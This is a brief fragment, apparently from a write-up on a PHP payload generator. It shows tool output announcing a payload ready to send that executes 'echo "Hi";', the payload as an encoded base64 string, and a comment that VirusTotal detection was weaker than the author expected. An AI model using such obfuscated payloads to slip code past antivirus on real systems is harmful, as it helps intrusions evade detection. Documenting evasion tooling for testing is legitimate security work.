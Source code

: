 Finished payload ready to be sent, executing "echo "Hi";"

```php
Array
(
    [payload] => dW8rbiMmayd2aTg9enI3Yig5eCE3ITNsaTllOGkwLWFvLTUvZy4gNWE1dilmPGthaT40dDdtKWBlPzl7bDl3KHchfmFpPzdiP2N9Y2J+dnhjZidneH53d2hhIX12QH0KOlpjY280cw==
)
```

VirusTotal was not amazing on this one, which can be understandable
based on hash recognition, but I had expected a tad more from the
heuristics.

![](Pictures/PHP02_02.png)


[back](./)


